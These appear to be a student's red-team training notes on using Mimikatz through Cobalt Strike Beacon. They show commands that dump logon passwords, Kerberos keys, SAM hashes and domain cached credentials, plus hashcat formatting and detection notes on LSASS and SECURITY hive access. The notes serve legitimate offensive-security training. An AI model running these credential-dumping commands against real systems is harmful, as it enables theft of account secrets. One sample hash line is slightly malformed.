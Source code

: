 

Cannot run multiple commands like in console:

``PS C:\Tools\mimikatz\x64> .\mimikatz.exe token::elevate lsadump::sam exit``

Instead use :

`!` to elevate privilege
`@` impersonate Beacon's thread token before running the command

`@` option is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.

So in the example above, the correct Cobalt Strike syntax would be:

``beacon> mimikatz !lsadump::sam``


## NTLM Hashes

Dump passwords from memory, even plaintext sometimes. Useful for **Pass the Hash**

```
mimikatz !sekurlsa::logonpasswords
```

Cobalt Strike also has a short-hand command for this called `logonpasswords`.  After dumping these credentials, go to _View > Credentials_ to see a copy of them

Dump the Kerberos encryption keys of currently logged on users, it's more common to use Kerberos in modern systems so we can blend in easier.  These keys can be used in a variety of Kerberos abuse scenarios.

```
mimikatz !sekurlsa::ekeys
```

> [!info] 
> There is a [known issue](https://github.com/gentilkiwi/mimikatz/issues/314) where Mimikatz may incorrectly label all of the hashes as `des_cbc_md4`.
> The order is :
> 
> ```
aes256_hmac       4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
rc4_hmac_nt       59fc0f884922b4ce376051134c71e22c
rc4_hmac_old      59fc0f884922b4ce376051134c71e22c
rc4_md4           59fc0f884922b4ce376051134c71e22c
rc4_hmac_nt_exp   59fc0f884922b4ce376051134c71e22c
rc4_hmac_old_exp  59fc0f884922b4ce376051134c71e22c2c

> [!warning] 
> Requires elevated privileges.

> [!danger] 
> OPSEC: This modules will open a read handle to LSASS which can be logged under event 4656. Use the "Suspicious Handle to LSASS" saved search in Kibana to see them. 


## Domain Cached Credentials

The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM so it can't be used with pass the hash.  The only viable use for these is to crack them offline.

Mimikatz module can extract these from `HKLM\SECURITY`.

```
mimikatz !lsadump::cache
```

To crack these with [hashcat](https://hashcat.net/hashcat/), we need to transform them into the expected format. The [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us it should be `$DCC2$<iterations>#<username>#<hash>`.
```
2100|Domain Cached Credentials 2 (DCC2), MS Cache 2|$DCC2$10240#tom#e4e938d12fe5974dc42a90120bd9c90f
```

> [!warning] 
>  DCC is much much slower to crack than NTLM.

> [!danger] 
> This module will open a handle to the SECURITY registry hive.  Use the "Suspicious SECURITY Hive Handle" saved search in Kibana to see them.

## Extracting Kerberos Tickets

[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38189179-extracting-kerberos-tickets)

